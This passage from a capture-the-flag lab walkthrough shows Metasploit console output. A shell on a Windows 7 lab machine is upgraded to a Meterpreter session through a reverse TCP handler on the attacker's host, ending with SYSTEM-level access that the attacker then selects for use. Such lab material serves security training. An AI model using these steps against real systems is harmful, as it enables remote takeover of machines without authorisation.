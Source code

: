 ### #3.4

Run! If this doesn't work, try completing the exploit from the previous task once more. Hint: Command: `run` (or `exploit`)

~~~
msf5 post(multi/manage/shell_to_meterpreter) > run

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.9.35.106:4433 
[*] Post module execution completed
[*] Sending stage (176195 bytes) to 10.10.126.60
[*] Meterpreter session 2 opened (10.9.35.106:4433 -> 10.10.126.60:49185) at 2020-04-30 23:17:33 -0700
[*] Stopping exploit/multi/handler

msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.9.35.106:4444 -> 10.10.126.60:49168 (10.10.126.60)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.9.35.106:4433 -> 10.10.126.60:49185 (10.10.126.60)
~~~

### #3.5

Once the meterpreter shell conversion completes, select that session for use. Hint: `sessions SESSION_NUMBER`

~~~
msf5 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  1         shell x64/windows        Microsoft Windows [Version 6.1.7601] Copyright (c) 2009 Microsoft Corporation...  10.9.35.106:4444 -> 10.10.126.60:49168 (10.10.126.60)
  2         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ JON-PC                                                      10.9.35.106:4433 -> 10.10.126.60:49185 (10.10.126.60)

msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > 
~~~
